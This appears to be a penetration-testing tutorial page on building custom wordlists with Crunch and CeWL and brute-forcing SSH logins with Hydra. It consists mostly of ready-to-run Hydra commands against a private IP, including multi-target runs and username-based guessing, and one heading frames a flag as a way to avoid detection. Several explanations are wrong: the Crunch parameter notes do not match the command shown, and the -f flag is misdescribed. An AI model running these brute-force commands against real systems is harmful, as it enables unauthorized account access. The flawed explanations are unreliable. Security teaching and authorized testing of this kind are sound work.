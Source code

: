 ```yaml
---
title: "Creating Custom Wordlists and Rules for Hydra"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


To effectively use Hydra for brute-forcing SSH connections, creating custom wordlists and rules is crucial. Custom wordlists tailored to specific targets can significantly enhance the success rate of brute-force attacks. This guide will cover methods to create custom wordlists and define rules for their efficient use with Hydra.

## Why Create Custom Wordlists?

Using generic wordlists like `rockyou.txt` can be effective, but they may not always suit specific targets. Custom wordlists can:
- Tailor attacks to specific targets based on gathered information.
- Include unique or uncommon passwords.
- Increase the chances of successful brute-force attempts.

## Creating Custom Wordlists

### 1. Using `Crunch` to Generate Wordlists

Crunch generates wordlists based on specified criteria. It's useful for creating lists of various lengths and patterns.

Install Crunch:

```bash
sudo apt install crunch
```

When creating the wordlist, we will typically use this command
```sh
crunch <min> <max> <charset>
```

- min: is the minimun password length
- max: is the maximum password length
- charset: Character se to be used

Generate a wordlist with all combinations of letters:

```bash
crunch 3 6 0123456789
```

- **8**: Minimum length of words.
- **10**: Maximum length of words.
- **abcdefghijklmnopqrstuvwxyz**: Character set.
- **-o wordlist.txt**: Output file.

<blockquote class="imgur-embed-pub" lang="en" data-id="Q2o0Eb4"><a href="https://imgur.com/Q2o0Eb4">View post on imgur.com</a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

#### Creating Wordlist in a text file.

If you want your wordlist file in text format run this command on your terminal

```sh
crunch 3 6 0123456789 -o list.txt
```

#### Creating  Custom Wordlist With Letters, Symbols, and Numbers.

This Step is for Mixed with  letters, Symbols, Numbers and creating a custom wordlist Run this command on Your terminal

```sh
crunch 4 8 123abcdefgh#$% -o list2.txt
```
- –o : Output in a textfile. along with name of the text file.

### 2. Using `CeWL` to Generate Wordlists

CeWL (Custom Word List generator) is a ruby app that spiders a given URL to a specified depth and generates a custom wordlist from the text found on the website.

Install CeWL:

```bash
sudo apt-get install cewl
```

Generate a wordlist:

```bash
cewl http://example.com -m 5 -w wordlist.txt
```

- **http://example.com**: Target URL.
- **-m 5**: Minimum word length (5 characters).
- **-w wordlist.txt**: Output file.

## Combining Multiple Wordlists

You can merge several wordlists into one to cover a broader range of possibilities.

```bash
cat wordlist1.txt wordlist2.txt > combined_wordlist.txt
sort combined_wordlist.txt | uniq > final_wordlist.txt
```

- **cat**: Concatenates files.
- **sort**: Sorts the combined list.
- **uniq**: Removes duplicate entries.

## Creating Rules for Hydra

Hydra supports various flags and options to customize brute-force attacks. Understanding and applying these rules can optimize the attack process.

### Specifying Usernames and Passwords

Using a custom username list:

```bash
hydra -L custom_userlist.txt -P pass.txt 192.168.29.135 ssh -t 4
```

Using a custom password list:

```bash
hydra -l username -P custom_passlist.txt 192.168.29.135 ssh -t 4
```

### Customizing Thread Count

Adjust the number of parallel threads to balance speed and server load:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 8
```

### Targeting Multiple IPs

To target multiple IP addresses simultaneously:

```bash
hydra -L user.txt -P pass.txt -M ip_list.txt ssh -t 4
```

### Advanced Password Guessing with `-e` Flag

The `-e` flag in Hydra adds extra password guessing techniques:

```bash
hydra -l username -P pass.txt 192.168.29.135 -e nsr ssh
```

- **-e n**: Try empty passwords.
- **-e s**: Try the username as the password.
- **-e r**: Try the reverse of the username.

### Verbose Mode and Detailed Output

Enable verbose mode for detailed output:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -V
```

### Changing Default SSH Port

Specify a custom SSH port if the target uses a non-standard port:

```bash
hydra -s 2222 -L user.txt -P pass.txt 192.168.29.135 ssh -t 4
```

### Using Custom Login Attempts

Limit login attempts to avoid detection and blocking:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 4 -f
```

- **-f**: Exit after the first successful login.

## Conclusion

Creating custom wordlists and using Hydra for brute-force attacks should always be done ethically and legally. Unauthorized access to systems is illegal and punishable by law. Use these techniques only for authorized penetration testing and security assessments.

By creating custom wordlists and applying advanced rules, security professionals can more effectively test the strength of SSH credentials and enhance their overall security measures.